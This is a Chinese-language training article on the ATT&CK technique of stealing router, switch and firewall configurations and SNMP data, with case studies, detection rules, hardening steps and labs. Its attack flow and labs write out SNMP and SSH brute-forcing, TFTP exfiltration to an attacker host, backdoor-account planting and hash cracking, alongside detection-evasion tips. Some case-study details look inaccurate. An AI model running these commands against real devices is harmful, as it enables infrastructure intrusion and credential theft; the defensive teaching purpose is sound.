

# 来自配置存储库的数据 (T1602)

## 一句话通俗理解

> **攻击者从网络设备（路由器/交换机/防火墙）的配置存储库中窃取配置文件、SNMP MIB 数据等敏感信息。**

## 难度等级

⭐⭐ 中级 - 需要掌握网络协议基础与设备管理知识，但工具链成熟、攻击门槛相对较低

## 技术描述

**通俗解释：**

"配置存储库"（Configuration Repository）是指网络设备中存储配置信息和管理数据的位置，主要包括：路由器/交换机/防火墙的 `running-config` 和 `startup-config` 配置文件、SNMP（简单网络管理协议）的 MIB（管理信息库）数据、设备管理协议（SSH/Telnet/HTTP）暴露的配置接口、TFTP/SCP 等文件传输协议备份的配置归档。这些存储库保存了网络拓扑、ACL 规则、VPN 密钥、SNMP community 字符串、RADIUS/TACACS+ 认证密钥等高敏感信息。

**过渡段：** 不要低估配置存储库的价值——攻击者拿到一份网络设备配置，等于拿到了内网的"地图和钥匙"。配置文件中的子网划分、路由表、隧道密钥直接让攻击者绕过边界防护；SNMP MIB 数据则暴露了设备型号、固件版本、运行服务，为漏洞利用提供精准情报。和偷文件相比，偷配置更"轻"，但杀伤力更大。

**技术原理：**

T1602 是 MITRE ATT&CK v19.1 收集战术（TA0009）下的父级技术，包含两个子技术：
- **T1602.001 SNMP (MIB Dump)**：通过 SNMP 协议（UDP 161/162）使用 `snmpwalk`、`snmpget`、`snmpbulkget` 等工具读取设备 MIB 树，获取系统信息、接口列表、路由表、ARP 表、运行进程等数据
- **T1602.002 Network Device Management Collection**：通过 SSH、Telnet、HTTP/HTTPS、Netconf 等管理协议登录网络设备，执行 `show running-config`、`show startup-config`、`show version` 等命令导出配置；或通过 TFTP（UDP 69）、SCP（TCP 22）将配置文件从设备上下载到攻击者控制的主机

**用途与影响：**

成功实施该技术后，攻击者可获取：
1. **网络拓扑情报**：IP 规划、VLAN 划分、路由协议（OSPF/BGP）邻居
2. **凭证素材**：VPN 预共享密钥、SNMP community、RADIUS 共享密钥、本地管理员账户哈希
3. **漏洞情报**：设备型号、IOS/CatOS 版本、补丁状态，用于精准漏洞利用
4. **持久化素材**：在配置中植入后门账户、隐藏 ACL、修改 SNMP community 后再上传配置

这些数据为后续横向移动、凭据访问（TA0006）、防御削弱（TA0112）提供关键支撑。

## 子技术列表

| 子技术 ID | 英文名 | 中文名 | 一句话理解 |
|-----------|--------|--------|-----------|
| [T1602.001](./T1602/T1602.001-SNMP-MIB-Dump.md) | SNMP (MIB Dump) | SNMP MIB 转储 | 使用 snmpwalk/snmpget 等工具通过 UDP 161 读取网络设备的 MIB 数据 |
| [T1602.002](./T1602/T1602.002-Network-Device-Configuration-Dump.md) | Network Device Management Collection | 网络设备管理收集 | 通过 SSH/Telnet/HTTP 登录网络设备执行 show 命令或下载配置文件 |

## 攻击流程

### 典型攻击流程

```
侦察网络设备 IP/型号 --> 获取 SNMP community 或管理凭据 --> 通过 SNMP/SSH/Telnet 访问设备 --> 导出配置或 MIB 数据 --> 持久化与利用
```



**步骤详解：**

1. **侦察网络设备**
   - 通俗描述：攻击者扫描内网，找出路由器、交换机、防火墙的管理 IP
   - 技术细节：使用 `nmap -sU -p 161 --script=snmp-brute` 探测 SNMP 服务；`nmap -p 22,23,80,443,830` 探测管理协议端口；通过 LLDP/CDP 协议嗅探发现邻接设备
   - 常用工具：nmap、masscan、snmp-scanner

2. **获取访问凭据**
   - 通俗描述：攻击者获取 SNMP community 字符串或 SSH/Telnet 登录凭据
   - 技术细节：爆破 SNMP v1/v2c 的 community（常用 public/private/private）；从已攻陷的 TACACS+ 服务器、RADIUS 服务器或网管平台（如 SolarWinds NCM、Cisco Prime）窃取设备凭据；利用 CVE-2019-1821（Cisco Prime）等漏洞
   - 常用工具：hydra、medusa、onesixtyone

3. **访问配置存储库**
   - 通俗描述：攻击者使用 SNMP/SSH/Telnet 协议登录设备或读取 MIB 数据
   - 技术细节：通过 `snmpwalk -v2c -c <community> <target> 1.3.6.1` 拉取整棵 MIB 树；SSH 登录后执行 `show running-config`、`show startup-config`、`show inventory`；HTTP 访问设备 Web 管理界面下载配置备份
   - 常用工具：snmpwalk、net-snmp、Cisco IOS CLI、Paramiko

4. **数据外发与归档**
   - 通俗描述：将配置文件和 MIB 数据打包外传到攻击者控制的 C2 服务器
   - 技术细节：使用 `copy running-config tftp://<attacker>/config.bak` 通过 TFTP 外传；通过 SCP `scp admin@device:running-config ./` 下载；通过 C2 beacon 分段上传（参见 T1074 数据分段、T1560 数据压缩）
   - 常用工具：tftp、scp、rclone、C2 框架（Cobalt Strike）

5. **持久化利用**
   - 通俗描述：基于窃取的配置信息实施进一步攻击
   - 技术细节：从配置中提取 VPN 预共享密钥搭建间谍 VPN；复用 SNMP community 横向移动到其他设备；在配置中植入后门账户（`username backdoor privilege 15 secret 0 <pass>`）后通过 `copy tftp://.../config.cfg running-config` 覆盖配置
   - 常用工具：配置编辑器、IOS CLI

## 真实案例

### 案例1：Volt Typhoon（伏特台风）— 美国关键基础设施长期潜伏

- **时间**：2023年5月 - 2025年持续活动
- **目标**：美国关岛、夏威夷及本土电力、水务、交通等关键基础设施
- **攻击组织**：Volt Typhoon（中国政府支持的 APT，又称 Bronze Silhouette、Insidious Taurus、Vanguard Panda）
- **手法**：攻击者入侵 SOHO 路由器（Netgear、Cisco、TP-Link）和企业边缘网络设备，使用默认或弱 SNMP community、已知 CVE（如 CVE-2018-0171 Cisco Smart Install、CVE-2023-20198 Cisco IOS XE Web UI）获取设备管理权限，执行 `show running-config` 收集网络拓扑、内网网段、VPN 配置；并使用被控路由器作为代理节点隐藏真实 C2 流量。CISA、NSA、FBI 在 2023 年 5 月联合发布的 AA23-144A 公告中明确指出该组织"living off the land"使用合法网络管理工具（snmpwalk、Putty、WinSCP）规避检测
- **影响**：长期潜伏最长 5 年未被发现，收集的配置数据用于构建间谍 VPN 网络、定位高价值目标；2024 年 FBI 缉获行动前已渗透数十台关键路由器
- **参考链接**：
  - [CISA AA23-144A - Volt Typhoon](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-144a)
  - [Microsoft Threat Intelligence - Volt Typhoon](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure/)

### 案例2：UNC2452 / Nobelium（SolarWinds 供应链攻击后续行动）

- **时间**：2020年12月 - 2022年持续追踪
- **目标**：全球政府机构、关键基础设施、Fortune 500 企业（受影响客户超 18,000 家）
- **攻击组织**：APT29（Cozy Bear / The Dukes，俄罗斯 SVR 关联组织，被 FireEye 命名为 UNC2452 / Nobelium / Midnight Blizzard）
- **手法**：通过 SolarWinds Orion 平台供应链攻击植入 SUNBURST 后门后，攻击者在横向移动阶段访问网络设备配置库，从 Cisco Prime Infrastructure、SolarWinds NCM 等网管平台批量导出路由器/交换机配置；提取 SNMP community、SSH 密钥、VPN 预共享密钥用于跨设备横向移动；使用合法的 snmpwalk 和 net-snmp 工具执行 MIB 转储以规避 EDR 检测
- **影响**：攻击者获得多个美国联邦机构的网络设备管理权限，配置数据泄露导致需要大规模轮换所有设备的 SNMP community、SSH 密钥和 VPN 证书；清理成本估计超 1 亿美元
- **参考链接**：
  - [CISA Alert AA21-008A - SolarWinds Compromise](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-008a)
  - [Mandiant UNC2452 Report](https://www.mandiant.com/resources/blog/sunburst-additional-technical-details)

### 案例3：APT41 — 网络设备 CVE 利用与配置收集

- **时间**：2020年3月 - 2022年8月持续活动
- **目标**：电信运营商、金融机构、制造业（主要位于东亚、东南亚）
- **攻击组织**：APT41（又名 Winnti、Barium、Double Dragon，中国关联 APT）
- **手法**：攻击者利用 Cisco IOS XE Web UI 漏洞（CVE-2019-1804、CVE-2023-20198）、Citrix ADC 漏洞（CVE-2019-19781）以及 Fortinet FortiOS 漏洞（CVE-2018-13379）等网络设备 0day/Nday 漏洞获取管理权限，登录后通过 `show running-config` 和 TFTP 批量下载配置文件；从配置中提取 RADIUS 共享密钥、管理账户密码哈希，用于横向移动到 RADIUS 服务器和 TACACS+ 服务器；同时执行 `snmpwalk -v2c -c public` 收集网络拓扑
- **影响**：成功渗透多家电信运营商的核心网络，获取用户上网行为日志和 VPN 配置；攻击者使用收集的配置数据在路由器上植入 GRE 隧道实施流量劫持
- **参考链接**：
  - [FireEye APT41 Report](https://www.fireeye.com/blog/threat-research/2020/03/apt41-initiates-global-intrusion-campaign-using-multiple-exploits.html)
  - [Cisco Talos - APT41 Activity](https://blog.talosintelligence.com/)

### 案例4：Sandworm — 乌克兰网络设备配置窃取与破坏

- **时间**：2022年1月 - 2023年6月（俄乌冲突期间）
- **目标**：乌克兰政府、能源、电信运营商
- **攻击组织**：Sandworm（俄罗斯 GRU Unit 74455 关联组织）
- **手法**：攻击者使用 Cyclops Blink 僵尸网络（WatchGuard 和 ASUS 路由器）和 VPN Filter 恶意软件家族，感染边缘网络设备后通过 `snmpwalk` 收集内网拓扑，通过 SSH/Telnet 登录下游设备执行 `show config` 窃取配置；部分场景下使用配置文件中的凭据进一步入侵工业控制系统（ICS）
- **影响**：2022 年 2 月俄乌战争爆发前大规模破坏乌克兰路由器和防火墙，导致 Viasat 卫星通信中断；配置数据用于识别关键通信链路并实施后续 AcidRain 攻击
- **参考链接**：
  - [CISA AA22-074A - Sandworm](https://www.cisa.gov/news-events/cybersecurity-advisories/aa22-074a)
  - [WatchGuard Cyclops Blink Advisory](https://www.watchguard.com/wgrd-psirt/advisory-wg-2022-00001)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先识别 SNMP v1/v2c 弱 community**：企业内网 SNMP 配置普遍薄弱，`public`/`private`/`cisco` 仍是高频默认值。使用 `onesixtyone` 快速扫描比 `snmpwalk` 更隐蔽
2. **Living off the Land**：在已控 Windows 跳板上使用 `snmpwalk.exe`、`plink.exe`（Putty CLI）、`WinSCP`，这些合法工具不会被 EDR 标记
3. **网管平台是金矿**：SolarWinds NCM、Cisco Prime、HPE IMC 等网管平台通常存储了所有设备的凭据和配置备份，攻陷一台即可获取全网
4. **配置中的凭据复用**：路由器配置中的 `username secret 5` 哈希（Cisco Type 7/Type 5）常常被管理员在其他系统复用，破解后可横向移动
5. **隐藏 SNMP 探测**：使用 `snmpwalk -v2c -c <community> <target> 1.3.6.1.2.1` 限定子树避免全量扫描；分时段低速扫描避免触发 SIEM 速率告警

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| snmpwalk / net-snmp | SNMP MIB 批量读取 | Linux/Windows | [net-snmp](http://www.net-snmp.org/) |
| onesixtyone | SNMP community 快速爆破 | Linux | [onesixtyone](https://github.com/trailofbits/onesixtyone) |
| snmp-check | SNMP 设备信息枚举 | Linux | [snmp-check](https://www.kali.org/tools/snmp-check/) |
| hydra | SSH/Telnet 凭据爆破 | Linux | [hydra](https://github.com/vanhauser-thc/thc-hydra) |
| plink (Putty) | SSH CLI 自动化登录执行命令 | Windows | [Putty](https://www.putty.org/) |
| WinSCP | SCP/SFTP 配置文件下载 | Windows | [WinSCP](https://winscp.net/) |
| Metasploit | auxiliary/scanner/snmp/snmp_login 等模块 | 全平台 | [Metasploit](https://www.metasploit.com/) |
| RANCID | 网络设备配置自动备份（合法工具被滥用） | Linux | [RANCID](https://www.shrubbery.net/rancid/) |

### 注意事项

- 在授权的测试环境中使用这些技术，严格遵守 Rules of Engagement
- 注意操作安全（OPSEC）：`snmpwalk` 全量扫描会触发设备 CPU 高负载和 SIEM 告警，应分时段低速执行
- 网络设备配置文件包含敏感信息，测试中获取的配置应加密存储、测试结束后立即销毁
- 测试 SSH/Telnet 登录前确认是否触发账户锁定策略，避免影响生产设备可用性

## 蓝队视角

### 检测要点

1. **SNMP 异常来源**：监控内网中非网管 IP（如工作站、服务器）发起到网络设备 UDP 161 的 SNMP 请求；正常 SNMP 流量应来自网管平台（NCM、Prime、Zabbix）
2. **设备管理登录异常**：监控 SSH/Telnet 到网络设备的登录源 IP、登录时间、登录频率；非维护窗口的登录、来自跳板机以外的登录均为可疑
3. **配置导出命令**：监控网络设备 AAA 日志中的 `show running-config`、`show startup-config`、`copy ... tftp://`、`copy ... scp://` 命令执行
4. **TFTP/SCP 流量**：TFTP（UDP 69）和 SCP（TCP 22）从网络设备到非网管 IP 的传输均为可疑，应仅允许到 NCM 服务器
5. **MIB 异常读取**：监控 SNMP v2c 中 `1.3.6.1.4.1.9.2.1`（Cisco 本地 MIB）等敏感 OID 的访问

### 监控建议

- **网络层**：部署 NIDS（如 Suricata、Zeek）监控 UDP 161/162、TCP 22/23/69 流量；建立 SNMP 基线，识别异常 community 字符串
- **设备层**：启用 Cisco IOS `aaa accounting commands` 记录所有 CLI 命令；启用 SNMP v3 的 authPriv 模式并记录 access log
- **网管层**：在 SolarWinds NCM、Cisco Prime 中开启配置变更审计；监控配置备份任务的异常触发
- **SIEM 层**：建立"非网管 IP + SNMP/SSH 到网络设备"关联规则；为每台网络设备建立"正常管理员+正常时间窗口"白名单

## 检测建议

### 网络层检测

**检测方法：** 监控内网中非网管 IP 发起到网络设备 UDP 161/162、TCP 22/23/69/830 的连接；检测 SNMP 全树遍历（`1.3.6.1` 起始的 OID 批量请求）

**Suricata 规则示例：**

```suricata
# 检测非网管 IP 发起的 SNMP 访问
alert udp $HOME_NET any -> $NETWORK_DEVICES 161 (msg:"T1602 Suspicious SNMP access from non-NMS host"; sid:2025001; rev:1;)
# 检测 SNMP v1/v2c community 字符串为 public/private
alert udp $HOME_NET any -> $NETWORK_DEVICES 161 (msg:"T1602 SNMP default community string usage"; content:"public|00 00 00 01|"; sid:2025002; rev:1;)
# 检测 TFTP 配置文件传输
alert udp $HOME_NET any -> $NETWORK_DEVICES 69 (msg:"T1602 TFTP config transfer from non-NMS host"; sid:2025003; rev:1;)
# 检测 SSH 到网络设备的异常登录
alert tcp $HOME_NET any -> $NETWORK_DEVICES 22 (msg:"T1602 SSH access to network device from non-management host"; sid:2025004; rev:1;)
```

### 主机层检测

**检测方法：** 监控跳板机/工作站上 snmpwalk、plink、WinSCP 等工具的进程创建；监控 Cisco IOS 日志中的 `show running-config` 命令

**Cisco IOS 日志关键事件：**

```
%SYS-5-CONFIG_I: Configured from console by admin on vty0
%SEC-6-IPACCESSLOGP: list 101 denied tcp 10.0.0.5(49152) -> 10.0.0.1(22)
```

**Sigma 规则示例：**

```yaml
title: T1602 配置存储库数据收集 - SNMP 工具异常使用
id: 7d8a4f12-3c5b-4e6f-9a1b-2c3d4e5f6a7b
status: experimental
description: 检测非网管主机上 snmpwalk/onesixtyone 等工具的执行
references:
  - https://attack.mitre.org/techniques/T1602/
author: ATTCK Knowledge Base
date: 2026/07/20
logsource:
  category: process_creation
  product: windows
detection:
  selection_snmp_tools:
    Image|endswith:
      - '\snmpwalk.exe'
      - '\snmpget.exe'
      - '\onesixtyone.exe'
      - '\snmp-check.exe'
  filter_nms:
    ComputerName|contains:
      - 'NMS'
      - 'solarwinds'
      - 'prime'
      - 'zabbix'
  condition: selection_snmp_tools and not filter_nms
fields:
  - Image
  - CommandLine
  - ComputerName
  - User
falsepositives:
  - 合法网管平台上的 SNMP 工具调用
level: medium
tags:
  - attack.collection
  - attack.t1602
  - attack.t1602.001
```

### 应用层检测

**检测方法：** 在网络设备上启用 AAA 记录所有 CLI 命令；在网管平台（Cisco Prime、SolarWinds NCM）中开启配置下载审计

> **应用层检测要点：** T1602 攻击的核心特征是"使用合法管理协议访问配置存储库"。攻击者通过 snmpwalk 全树遍历读取 MIB、通过 SSH 登录执行 `show running-config`、通过 TFTP 下载配置文件——这些都是合法管理操作，单纯识别命令本身难以区分。检测的关键在于**行为基线偏差**：①非网管 IP 发起管理操作；②非维护窗口的管理登录；③异常的配置导出频率（如短时间内对多台设备的批量配置下载）；④配置文件被传输到非备份服务器的目标 IP。建议在网络设备上启用 `aaa accounting commands 15 default start-stop group tacacs+` 将所有特权命令记录到 TACACS+ 服务器，并在 SIEM 中建立基于"管理员+设备+时间窗口"的行为基线告警。
>
> **避坑指南**：①只关注外部攻击，忽略内网横向移动；②日志留存时间不足（<90天），取证时缺少证据；③SNMP v1/v2c community 长期未轮换，被攻击者长期复用；④未监控 TFTP（UDP 69）流量，错过配置外发关键信号。

## 缓解措施

### 优先级1：关键措施

**措施名称：** 全面升级到 SNMP v3 并启用 authPriv 模式

**具体实施步骤：**

1. 盘点所有网络设备，识别仍在使用 SNMP v1/v2c 的设备（`show snmp host`）
2. 配置 SNMP v3 用户和组，强制使用 authPriv（认证+加密）：`snmp-server group ADMIN v3 priv read VIEW write VIEW access SNMP-ACL`
3. 在网络设备上配置 SNMP ACL，仅允许网管平台 IP：`snmp-server community <complex-string> RO SNMP-ACL`
4. 移除所有默认 community（public/private/cisco）
5. 定期（每季度）轮换 SNMP v3 用户凭据

### 优先级2：重要措施

**措施名称：** 网络设备管理平面加固

**具体实施步骤：**

1. 限制管理协议访问：SSH/Telnet/HTTP 仅允许从 Jump Host 通过 `access-class` 访问
2. 禁用 Telnet，仅启用 SSH v2：`transport input ssh`
3. 配置登录失败锁定：`login block-for 60 attempts 3 within 30`
4. 启用 AAA 记录所有 CLI 命令：`aaa accounting commands 15 default start-stop group tacacs+`
5. 部署 TACACS+ 服务器（如 Cisco ISE、FreeRADIUS），集中管理设备凭据
6. 关闭不必要的 TFTP 服务：`no tftp-server enable`

### 优先级3：建议措施

**措施名称：** 配置文件加密存储与变更监控

**具体实施步骤：**

1. 网管平台（NCM/Prime）配置文件存储启用加密
2. 部署配置变更监控（如 RANCID/Oxidized），每日 diff 对比，异常变更告警
3. 配置文件传输使用 SCP 替代 TFTP
4. 关键设备启用 Cisco IOS Resilient Configuration：`secure boot-image`、`secure boot-config`
5. 定期审计设备配置，识别植入的后门账户和异常 ACL

### MITRE ATT&CK 缓解措施映射

| 缓解措施 ID | 缓解措施名称 | 适用性 | 说明 |
| ----------- | ------------ | ------ | ---- |
| M1032 | 多因素认证 | 部分适用 | 网络设备管理接入的多因素认证（如 Cisco ISE + RSA SecurID） |
| M1018 | 用户账户管理 | 适用 | 定期审计网络设备本地账户，移除未使用账户 |
| M1026 | 特权账户管理 | 适用 | 限制 enable/level 15 特权账户的数量和使用范围 |
| M1037 | 数据保护 | 适用 | 配置文件加密存储、传输加密（SCP/SFTP 替代 TFTP） |
| M1051 | 软件更新 | 适用 | 修复网络设备 CVE（如 Cisco IOS XE Web UI 漏洞） |
| M1041 | 加密敏感信息 | 适用 | 启用 SNMP v3 authPriv，禁用 SNMP v1/v2c |
| M1030 | 网络分段 | 适用 | 将网络设备管理平面隔离到独立 VLAN，限制管理访问源 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
| -------- | ---- | ---- | ---- |
| EVE-NG | 网络设备仿真 | 中级 | [EVE-NG](https://www.eve-ng.net/) |
| GNS3 | 网络设备仿真 | 中级 | [GNS3](https://www.gns3.com/) |
| Cisco DevNet Sandbox | 真实 IOS XE 沙箱 | 中级 | [DevNet](https://developer.cisco.com/site/sandbox/) |
| TryHackMe | SNMP 枚举实验 | 初级 | [TryHackMe](https://tryhackme.com/room/snmp) |

**所需工具：**

- Linux 虚拟机（Kali Linux 推荐，预装 snmpwalk/onesixtyone/hydra）
- Cisco IOSv 或 IOSvL2 虚拟镜像（实验用途）
- TFTP 服务器（如 tftpd64）

**环境搭建：**

```bash
# 1. 在 EVE-NG/GNS3 中搭建 3 台 Cisco 路由器拓扑
# R1 --- R2 --- R3
# 配置 SNMP v2c community public（模拟弱配置）
# 配置 SSH 凭据 admin/Cisco123

# 2. Kali Linux 接入拓扑，配置同网段 IP
# 3. 验证连通性
ping <R1-IP>
```

### 实验1：基础实践（初级）

**实验目标：** 掌握 SNMP MIB 转储基本操作（T1602.001）

**实验步骤：**

1. 使用 `onesixtyone` 爆破 SNMP community：
   ```bash
   onesixtyone -c /usr/share/wordlists/snmp.txt 10.0.0.1
   ```
2. 使用 `snmpwalk` 全树读取 MIB：
   ```bash
   snmpwalk -v2c -c public 10.0.0.1 > r1_mib_full.txt
   ```
3. 提取关键信息：系统描述、接口列表、路由表：
   ```bash
   snmpwalk -v2c -c public 10.0.0.1 1.3.6.1.2.1.1.1   # sysDescr
   snmpwalk -v2c -c public 10.0.0.1 1.3.6.1.2.1.2.2   # ifTable
   snmpwalk -v2c -c public 10.0.0.1 1.3.6.1.2.1.4.21  # ipRouteTable
   ```
4. 使用蓝队方法验证：在 Suricata 中检查告警是否触发

**预期结果：** 理解 SNMP MIB 数据包含哪些敏感信息，掌握 snmpwalk 基本用法

**学习要点：** MIB 树结构与关键 OID 含义

### 实验2：进阶实践（中级）

**实验目标：** 掌握通过 SSH 登录设备执行 show 命令和 TFTP 配置下载（T1602.002）

**实验步骤：**

1. 使用 `hydra` 爆破 SSH 凭据：
   ```bash
   hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.1
   ```
2. 使用 `plink` 自动化登录执行 `show running-config`：
   ```bash
   plink -ssh -l admin -pw Cisco123 10.0.0.1 "show running-config" > r1_config.txt
   ```
3. 使用 TFTP 从设备下载配置：
   ```bash
   # 在 Kali 上启动 TFTP 服务器
   service tftpd-hpa start
   # SSH 登录设备执行复制
   plink -ssh -l admin -pw Cisco123 10.0.0.1 "copy running-config tftp://10.0.0.100/r1_config.bak"
   ```
4. 分析配置文件，提取 VPN 密钥、SNMP community、本地账户哈希
5. 使用 John the Ripper 破解 Cisco Type 7 密码：
   ```bash
   john --format=cisco --wordlist=rockyou.txt hashes.txt
   ```

**预期结果：** 能够独立完成 T1602 完整攻击链，理解配置文件中的高价值信息

**学习要点：** 配置文件结构、Cisco 密码哈希类型（Type 7 vs Type 5）与破解难度

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
| ---- | -------- | -------- |
| 配置存储库 | Configuration Repository | 网络设备中存储配置文件和管理数据的位置，包括 running-config、startup-config、SNMP MIB 等 |
| SNMP | Simple Network Management Protocol | 简单网络管理协议，用于网络设备监控和管理，工作在 UDP 161/162 端口 |
| MIB | Management Information Base | 管理信息库，SNMP 协议中用于描述设备可管理对象的树状结构，如 1.3.6.1.2.1.1 表示系统信息 |
| Community 字符串 | SNMP Community String | SNMP v1/v2c 的认证凭据，相当于密码；常用默认值为 public（只读）、private（读写） |
| running-config | Running Configuration | 网络设备当前运行中的配置文件，存储在 RAM 中，重启后丢失 |
| startup-config | Startup Configuration | 网络设备启动时加载的配置文件，存储在 NVRAM 中，重启后保留 |
| TFTP | Trivial File Transfer Protocol | 简单文件传输协议，工作在 UDP 69 端口，常用于网络设备配置和固件传输 |
| AAA | Authentication Authorization Accounting | 认证授权计费框架，网络设备常用 TACACS+/RADIUS 实现，用于集中管理登录和命令审计 |
| TACACS+ | Terminal Access Controller Access-Control System Plus | Cisco 开发的 AAA 协议，TCP 49 端口，可记录网络设备上的每条 CLI 命令 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Data from Configuration Repository (T1602)](https://attack.mitre.org/techniques/T1602/)
- [MITRE ATT&CK - Data from Configuration Repository: SNMP (T1602.001)](https://attack.mitre.org/techniques/T1602/001/)
- [MITRE ATT&CK - Data from Configuration Repository: Network Device Management (T1602.002)](https://attack.mitre.org/techniques/T1602/002/)
- [RFC 3411 - SNMP v3 架构](https://datatracker.ietf.org/doc/html/rfc3411)
- [RFC 1157 - SNMP v1 协议](https://datatracker.ietf.org/doc/html/rfc1157)

### 📰 安全报告（真实攻击）

- [CISA AA23-144A - Volt Typhoon 关键基础设施威胁公告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-144a)
- [CISA AA21-008A - SolarWinds 供应链攻击](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-008a)
- [FireEye APT41 全球入侵活动报告](https://www.fireeye.com/blog/threat-research/2020/03/apt41-initiates-global-intrusion-campaign-using-multiple-exploits.html)
- [CISA AA22-074A - Sandworm 俄罗斯 GRU 威胁活动](https://www.cisa.gov/news-events/cybersecurity-advisories/aa22-074a)
- [Microsoft Threat Intelligence - Volt Typhoon 分析](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure/)

### 🔧 工具与资源（动手试试）

- [net-snmp](http://www.net-snmp.org/) - SNMP 工具套件（snmpwalk/snmpget/snmpbulkget）
- [onesixtyone](https://github.com/trailofbits/onesixtyone) - SNMP community 快速爆破工具
- [Cisco IOS Configuration Guides](https://www.cisco.com/c/en/us/support/docs/ios-nx-os-software/ios-software-releases.html) - Cisco IOS 配置指南
- [RANCID](https://www.shrubbery.net/rancid/) - 网络设备配置自动备份（合法工具）
- [Oxidized](https://github.com/ytti/oxidized) - 现代化网络设备配置管理工具
- [Atomic Red Team - T1602 测试用例](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1602/T1602.yaml)

### 📚 学习资料（深入了解）

- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
- [Cisco Talos Threat Intelligence](https://blog.talosintelligence.com/) - Cisco Talos 威胁情报博客
- [Cisco Hardening Configuration Guide](https://www.cisco.com/c/en/us/about/security-center.html) - Cisco 设备加固指南
- [NSA Network Infrastructure Security Guide](https://www.nsa.gov/Press-Room/News-Highlights/Article/Article/2996435/nsa-releases-network-infrastructure-security-guidance/) - NSA 网络基础设施安全指南
- [SANS - SNMP Security Best Practices](https://www.sans.org/white-papers/451/) - SANS SNMP 安全最佳实践
